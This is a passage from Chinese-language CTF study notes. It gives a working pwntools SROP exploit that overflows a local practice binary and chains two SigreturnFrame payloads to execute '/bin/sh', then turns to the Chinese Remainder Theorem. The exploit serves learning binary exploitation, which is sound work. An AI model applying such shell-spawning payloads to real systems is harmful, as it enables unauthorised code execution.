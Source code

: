 ```python
```

> [!CAUTION]
>
> 一定不要忘记设置`context.arch= `,不然`SigreturnFrame()`是没法正常工作的.
>
> 在你设置完成了结构体内你需要的内容后,你可以用`bytes(name)` 来将它添加到你的payload中.

​	那么在我们进行调试,确定它可以正常工作后,我们就可以构造第二段payload,把`execve()`给送进去了.

```python
from pwn import *
st_add=0x401032 #need 0xf in stack
leak_add=0x40101F
read_add=0x401021
#rw:0x402000~0x403000
bss_add=0x402B00
r=process("./pwn")
context.log_level = 'debug'
context.arch = 'amd64'
gdb.attach(r)
pause()

exec_=SigreturnFrame()
exec_.rbp=bss_add
exec_.rip=0x401033
exec_.rax=0x0
exec_.rdi=0
exec_.rsi=bss_add
exec_.rdx=0x400

payload1=b'a'*0x80+p64(bss_add)+p64(st_add)+p64(0xf)+bytes(exec_)
r.send(payload1)

exec_=SigreturnFrame()
exec_.rdi=bss_add
exec_.rip=0x401033
exec_.rax=59

payload2=b'/bin/sh\x00'+p64(st_add)+p64(0xf)+bytes(exec_)
r.send(payload2)
r.interactive()
```

成功打通.

##### 3:中国剩余定理:

​	中国剩余定理主要是用来求解一元线性同余方程组的.

​	现在假设我们有这样一个一元线性同余方程组:(为什么是3,5,7而不是3,9,21?因为方程组有解的**充分**(也就是说,即使它们不互质,方程组也有可能有解)条件是这些数字互质)
$$
\left\{ \begin{aligned}x\equiv 2\ mod\ 3\\
x\equiv\ 3\ mod \ 5\\
x\equiv\ 2\ mod\ 7\end{aligned}\right.
$$
​	当然,我们还应该表示出这类方程组的一般形式:
$$
\left\{ \begin{aligned}x\equiv a_1\ mod\ m_1\\
x\equiv\ a_2\ mod \ m_2\\
x\equiv\ a_3\ mod\ m_3\\
......\ \ \ \ \ \ \\
x\equiv\ a_n\ mod\ m_n\end{aligned}\right.
$$
​	接下来开始解方程,我们规定有一个M=(m_1\*m_2...*m_n).对于每一个m_i,有M_i=M/m_i  t_i=inverse(M_i)与之对应


[^*]: 说到素数,前几天我在写python实验作业,完成一个输出区间内所有素数的程序,上了埃氏筛没过.于是我换成线性筛,结果还是过不了.本来我都打算换c++打表来优化了,结果老师告诉我数据错了... 另外顺便一提,python的题目一般不会有时间复杂度限制